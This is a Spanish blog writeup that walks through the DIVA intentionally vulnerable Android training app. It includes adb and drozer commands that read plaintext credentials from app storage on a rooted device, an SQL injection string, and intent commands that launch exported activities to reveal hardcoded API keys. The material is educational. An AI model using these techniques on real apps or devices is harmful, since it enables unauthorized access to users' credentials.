 ```yaml
---
layout: post
title: Una DIVA es... Vulnerable?
comments: true
categories: [Mobile, Writeups]
---
```


Como dijo Melody en Eurovisión, *Una diva es valiente, poderosa* y vulnerable??? En este post estaremos superando los retos de DIVA ó *Damn Vulnerable and Insecure App*, este es un proyecto para aprender lo básico sobre explotación en Android.

# Instalación

Lo mejor es instalar la aplicación en un dispositivo *rooteado*, conectado al equipo mediante USB. Para instalarla podemos hacerlo mediante la herramienta **adb**:

```bash
adb install DIVA.apk
```

Una vez instalada veremos un menú con los siguientes niveles:

# Insecure Loging

El primer nivel nos muestra un campo que espera un número de tarjeta de crédito. Nos piden que veamos como se está logueando la información. Si descompilamos con **jadx** veremos como se está

Con **adb** podemos ver los logs:

```bash
adb logcat | grep -i "Error while"

06-27 12:17:52.106 22839 22839 E diva-log: Error while processing transaction with credit card: <El número que hemos introducido>
```

# Hardcoding Issues - Part 1

En el segundo nivel vemos una vista similar a la anterior que nos solicita una clave. Si inspeccionamos el código veremos lo siguiente:

# Insecure Data Storage - Part 1

En este nivel se nos da una especie de logging, y se nos pide que encontremos donde se almacenan las credenciales. Decompilando el programa, vemos que se almacenan en la configuración por defecto:

Podemos acceder a ella con **adb**:

```bash
adb shell

su

cd /data/data/jakhar.aseem.diva/shared_prefs

cat jakhar.aseem.diva_preferences.xml                                                         
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="password">password</string>
    <string name="notespin">5569</string>
    <string name="user">naibu3</string>
</map>
```

Y podríamos ver la información que hay almacenada. Hay que recalcar que si no introducimos unas credenciales rpreviamente, el archivo no existirá.

# Insecure Data Storage - Part 2

En este segundo nivel las credenciales parecen almacenarse en una base de datos:

No podemos extraerla directamente, pero podemos copiarla en `/data/local/tmp`, ya que ahí tenemos permisos:

```bash
tucana:/data/data/jakhar.aseem.diva/databases # cp ids2 /data/local/tmp  
```

Y nos la descargamos con **adb**:

```bash
adb pull /data/local/tmp/ids2
/data/local/tmp/divanotes.db: 1 file pulled, 0 skipped. 6.3 MB/s (20480 bytes in 0.003s)
```

Y con **sqlite3** podemos ver la tabla `myuser`:

```bash
sqlite> .tables
android_metadata  myuser          
sqlite> select * from myuser;
naibu3 |naibu3
```

# Insecure Data Storage - Part 3

Este nivel es muy similar, pero en este caso se almacenan en texto plano en un archivo:

```bash
tucana:/data/data/jakhar.aseem.diva # cat uinfo8847310758726822991tmp                                                                            
naibu3:naibu3
```

# Insecure Data Storage - Part 4

Este último nivel es igual que el anterior, pero se trata de u archivo oculto:

# Input Validation Issues - Part 1

En este nivel se nos da un capo para buscar nombres de usuario. Sin embargo, si revisamos el código veremos que es vulnerable a SQLi:

Con una entrada como `' or '1'='1` podemos ver todos los usuarios:

# Input Validation Issues - Part 2

Dado que trata de acceder a una URL sin ninguna validación, podemos listar archivos locales como el del ejercicio 1.

# Access Control Issues - Part 1

En esta parte nos mencionan que hay una api corriendo, nos permiten entrar a la pestaña que muestra las credenciales. Sin embargo el objetivo es acceder desde fuera de la apicación:

```bash
sudo adb shell am start -n jakhar.aseem.diva/jakhar.aseem.diva.APICredsActivity
Starting: Intent { cmp=jakhar.aseem.diva/.APICredsActivity }
```

También se puede lanzar con:

```bash
sudo adb shell am start -a jakhar.aseem.diva.VIEWCREDS
```

# Access Control Issues - Part 2

Este nivel es similar al anterior, pero en este caso se comprueba que se reciba un valor booleano:

```java
Intent i = getIntent();
boolean bcheck = i.getBooleanExtra(getString(R.string.chk_pin), true);
if (!bcheck) {
    apicview.setText("TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2");
    return;
}
```

Vamos a investigar con **drozer**:

```bash
adb forward tcp:31415 tcp:31415
31415
```

```bash
drozer console connect
Selecting 49d862176aaee32d (Xiaomi Mi Note 10 11)

            ..                    ..:.
           ..o..                  .r..
            ..a..  . ....... .  ..nd
              ro..idsnemesisand..pr
              .otectorandroidsneme.
           .,sisandprotectorandroids+.
         ..nemesisandprotectorandroidsn:.
        .emesisandprotectorandroidsnemes..
      ..isandp,..,rotecyayandro,..,idsnem.
      .isisandp..rotectorandroid..snemisis.
      ,andprotectorandroidsnemisisandprotec.
     .torandroidsnemesisandprotectorandroid.
     .snemisisandprotectorandroidsnemesisan:
     .dprotectorandroidsnemesisandprotector.

drozer Console (v3.1.0)
dz> run app.activity.info -a jakhar.aseem.diva
Attempting to run shell module
Package: jakhar.aseem.diva
  jakhar.aseem.diva.MainActivity
    Permission: null
  jakhar.aseem.diva.APICredsActivity
    Permission: null
  jakhar.aseem.diva.APICreds2Activity
    Permission: null
```

Para pasar dicho valor podemos utilizar el siguiente comando en drozer:

```bash
dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity --extra boolean check_pin false
Attempting to run shell module
```

